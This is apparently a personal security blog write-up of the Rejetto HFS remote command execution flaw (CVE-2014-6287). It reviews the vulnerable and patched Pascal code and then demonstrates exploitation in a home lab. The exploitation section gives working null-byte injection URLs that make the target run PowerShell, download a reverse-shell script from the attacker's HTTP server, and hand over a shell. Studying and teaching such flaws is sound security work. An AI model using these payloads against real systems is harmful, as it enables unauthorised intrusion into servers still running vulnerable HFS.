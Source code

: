```yaml
---
layout: post
title:  "Rejetto HFS Remote Command Execution CVE 2014-6287"
categories: [Vulnerabilities]
tags: [command execution, exploit, python]
draft: false
---
```


### Introduction

On September 12th 2014, a vulnerability found within HttpFileServer was reported that allowed attackers to remotely execute commands on the affected device, this was caused due to poor validation on user input, which would allow an attacker to execute arbitary commands. The bug was reported in the `findMacroMarker()` function in the `parserLib.pas` file.

### So, How does it work?

By performing whats known as [NullByte Injection](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection) we can bypass the sanity checking written in that function thus allowing us to script over HFS without any restrictions in place. This is because the RegEx does not correctly handle the nullbyte characters which is what allows us to escape the filter. If you want to know more about Null Byte Injection you can also read my [blog post](https://linxz.co.uk/attacks/2018/11/20/NullByte-Injection.html) on it.

If we send a nullbyte as a paramter when performing a search on the affected device then we can escape the filter of forbidden characters thus allowing us to execute arbitary commands on the device. As an example, take this request here `http://localhost:80/search=%00{.exec|+C:\Windows\system32\ping.exe+10.10.14.11}` as you can see we've got our nullbyte which allows us to bypass the sanity checking, then we're sending a command to tell the machine to run `ping.exe` and ping that IP address. You can learn more about [HFS Scripting Here.](http://www.rejetto.com/wiki/index.php/HFS:_scripting_commands). Now that we know we can execute commands remotely, we can now leverage this in order to setup a reverse shell to the affected device thus giving us access to it with the same privilege level as the account the software is running on.

### Code Review

There's not a massive amount of code for us to review here however, because HFS is an open-source program we can look at both the affected & fixed code, which is nice! So, let's first look at the vulnerable function within `parserLib.pas`.

```Pascal
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

As you can see, the vulnerable code is incredibly small, the only issue is that it does not correctly handle the nullbyte we send and thus that gives us the ability to script over HFS with no limitations. If we look in the `scriptLib.pas` file we can see where this function is called.

```Pascal
function noMacrosAllowed(s:string):string;
// prevent hack attempts
var
  i: integer;
begin
i:=1;
  repeat
  i:=findMacroMarker(s, i);
  if i = 0 then break;
  replace(s, '&#'+intToStr(charToUnicode(s[i]))+';', i,i);
  until false;
result:=s;
end; // noMacrosAllowed
```

As you can see, the function in which this function is called is actually meant to stop people passing macros into a URL. However, there is no handling for a null byte which as we mentioned, that's where the problem lies. In order to fix this issue a function called `enforceNUL(s)` was added.

```Pascal
function noMacrosAllowed(s:string):string;
// prevent hack attempts
var
  i: integer;
begin
i:=1;
enforceNUL(s);
  repeat
  i:=findMacroMarker(s, i);
  if i = 0 then break;
  replace(s, '&#'+intToStr(charToUnicode(s[i]))+';', i,i);
  until false;
result:=s;
end; // noMacrosAllowed
```

As you can see, before it executes `findMacroMarker` it will first run this `enforceNUL` function, let's take a look at what this function does, which is defined in `utillib.pas`.

```Pascal
procedure enforceNUL(var s:string);
begin
if s>'' then
  setLength(s, strLen(@s[1]))
end; // enforceNUL
```

Now, my Pascal knowledge isn't the best however as far as I can tell this function basically removes the first character so that you cannot inject a `%00` into the URL, I could be wrong so if anyone knows some Pascal and would like to help me understand this better please feel free to contact me on Twitter @LinxzSec or @Linxz on Discord, thanks! You can obtain all of the source code for HFS from Source Forge.

### Exploit

Usually I test things against Metasploitable 2 however this vulnerability is not present in MS2 and thus in the below examples I am testing it against my own machine. I'm running HFS 2.3b on my Windows box whilst exploiting it using my Kali VM. I will show you how to execute this exploit both manaully and with Metasploit.

Firstly, let's test that we're running an affected version (although in this case we know we are) we will start out with sending a simple ping in a command back to our device whilst simultaneously running TCPDump on our attacking machine. Start by running HFS on your machine, make sure you can connect to it via the browser.

![Connection](LinxzFade.github.io/assets/images/2018-11-20/2018-11-20.PNG)

Now that we can see our device as being up we can move into the actual exploitation of the device, we will first look at exploiting this manually.

#### Manual Exploitation

Before we begin to exploit this we're going to make sure that our device is running the vulnerable version, even though we know it is and we can confirm with `nmap ip -sV` we're just going to do a quick test, we will first try to get the device to execute a ping back to our attacking machine.

First, setup a tcpdump using `tcpdump -i eth0 ICMP` leave that running and capturing packets in a terminal, then browse to your webserver with the following URL `http://192.168.139.1/?search=%00{.exec|C:\Windows\System32\ping.exe+192.168.139.138.}` obviously you will need to replace the IP addresses else this won't work, when you run this what you should see is your tcpdump picking up packets, you will also see a terminal open on the Windows device if you're using it (for example in my case I have three screens and I can see the terminal open when I press enter in my Kali VM). Now, what we did here was verify that the version is affected by sending a payload to the device, in this case we just told it to execute ping.exe and then ping the ip address `192.168.139.138` which is the address of my Kali VM. It's worth noting that it seems you *must* use a full stop at the end of your command else the server will not execute it, at least that's in my experience.

```bash
root@LinxzSecKali:~# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
12:11:59.722051 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 33, length 40
12:11:59.722080 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 33, length 40
12:11:59.727859 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 34, length 40
12:11:59.727886 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 34, length 40
12:11:59.731815 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 35, length 40
12:11:59.731918 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 35, length 40
```

Next we need to exploit this vulnerability in order to get a reverse shell, we know the RCE is there so let's figure out how we can leverage that to get full access to the account that's running the service. So, as we've mentioned the next step was to get a reverse shell! I came across the [following repo](https://github.com/samratashok/nishang) made by Samratashok which contains a lot of different PowerShell tools for offensive pen-testing. We're going to use some of these tools as there is one in here that will allow us to create a reverse shell on the target device, this is helpful because it means we don't have to build a script ourselves.

So, we have the script, now we need to figure out how we can serve it to the target device so that we can send a payload to execute it. Well, we can use a variety of methods, in this case I'm going to use [SimpleHTTPServer.py](https://github.com/LinxzFade/Python-Hacking-Tools/blob/master/SimpleHTTPServer/SimpleHTTPServer.py) to achieve this. Basically, the script above is going to setup a HTTP Server on the specified port, and give any machine access to the directory that it's running in on that port, see where I'm going with this? Firstly, let's test our victim machine can access our attacking machine while we run `SimpleHTTPServer.py` in order to do this I am going to send the following PowerShell command to the device via my browser.

```PowerShell
http://192.168.139.1/?search=%00{.exec|+C:\WINDOWS\Sysnative\WindowsPowerShell\v1.0\powershell.exe%20-NoProfile%20-ExecutionPolicy%20unrestricted%20-Command%20(new-object%20System.Net.WebClient).Downloadfile(%27http://192.168.139.138:8000/test%27,%20%27C:\windows\temp\test%27).}
```

At the same time `SimpleHTTPServer.py` is going to be running in my terminal, as you can see I'm connecting to 192.168.139.138 on port 8000 which is my Kali machine & the port I've configured the HTTP Server to be running on, in the PS command above I am trying to donwnload "test" however that file does not exist and thus I get the below response from `SimpleHTTPServer.py`

```Bash
root@LinxzSecKali:~/Documents/Scripts/Python# python3 SimpleHTTPServer.py 8000
[+] Simple HTTP Server!
[+] Running Server...
192.168.139.1 - - [27/Nov/2018 18:39:04] code 404, message File not found
192.168.139.1 - - [27/Nov/2018 18:39:04] "GET /test HTTP/1.1" 404 -
192.168.139.1 - - [27/Nov/2018 18:39:04] code 404, message File not found
192.168.139.1 - - [27/Nov/2018 18:39:04] "GET /test HTTP/1.1" 404 -
```

but, that doesn't matter! We expected that behaviour and now we know that our python HTTP server is working, we can now use this to get the victim to download our PowerShell reverse shell script that we briefly mentioned earlier.

```PowerShell
http://192.168.139.1/?search=%00{.exec|+C:\WINDOWS\Sysnative\WindowsPowerShell\v1.0\powershell.exe%20-NoProfile%20-ExecutionPolicy%20unrestricted%20-Command%20(new-object%20System.Net.WebClient).Downloadfile(%27http://192.168.139.138:8000/Invoke-PowerShellTcpOneLine.ps1%27,%20%27C:\windows\temp\Invoke-PowerShellTcpOneLine.ps1%27).}
```

Now we use the the same logic to execute our reverse shell while running a listener and we will get a shell on the machine, EZ!

### References

[SecLists Bug Tracker](https://seclists.org/bugtraq/2014/Sep/85)

[HFS Scripting](http://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)

[NullByte Injection](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection)

[HFS Patchnotes](http://www.rejetto.com/hfs/?f=wn)

[HFS 2.3C](https://sourceforge.net/projects/hfs/files/HFS/2.3c/)

[Exploit DB](https://www.exploit-db.com/exploits/34668/)

[Rapid7 Module](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)

[Metasploit Module](https://www.exploit-db.com/exploits/34926/)

